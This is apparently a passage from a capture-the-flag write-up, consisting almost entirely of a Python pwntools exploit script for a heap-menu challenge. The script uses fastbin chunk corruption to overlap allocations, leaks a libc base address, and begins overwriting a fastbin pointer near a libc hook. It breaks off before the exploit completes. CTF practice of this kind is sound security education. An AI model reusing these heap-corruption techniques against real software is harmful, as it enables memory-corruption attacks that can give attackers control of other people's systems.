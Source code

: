 {% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def alloc(size):
    r.sendline('1')
    r.sendlineafter(': ', str(size))
    r.recvuntil(': ', timeout=1)

def fill(idx, data):
    r.sendline('2')
    r.sendlineafter(': ', str(idx))
    r.sendlineafter(': ', str(len(data)))
    r.sendafter(': ', data)
    r.recvuntil(': ')

def free(idx):
    r.sendline('3')
    r.sendlineafter(': ', str(idx))
    r.recvuntil(': ')

def dump(idx):
    r.sendline('4')
    r.sendlineafter(': ', str(idx))
    r.recvuntil(': \n')
    data = r.recvline()
    r.recvuntil(': ')
    return data

def exploit(r):
    r.recvuntil(': ')

    alloc(0x20)
    alloc(0x20)
    alloc(0x20)
    alloc(0x20)
    alloc(0x80)

    free(1)
    free(2)

    payload  = p64(0)*5
    payload += p64(0x31)
    payload += p64(0)*5
    payload += p64(0x31)
    payload += p8(0xc0)
    fill(0, payload)

    payload  = p64(0)*5
    payload += p64(0x31)
    fill(3, payload)

    alloc(0x20)
    alloc(0x20)

    payload  = p64(0)*5
    payload += p64(0x91)
    fill(3, payload)
    alloc(0x80)
    free(4)

    libc_base = u64(dump(2)[:8]) - 0x3a5678
    log.info("libc_base: " + hex(libc_base))

    alloc(0x68)
    free(4)

    fill(2, p64(libc_base + 0x3a55ed))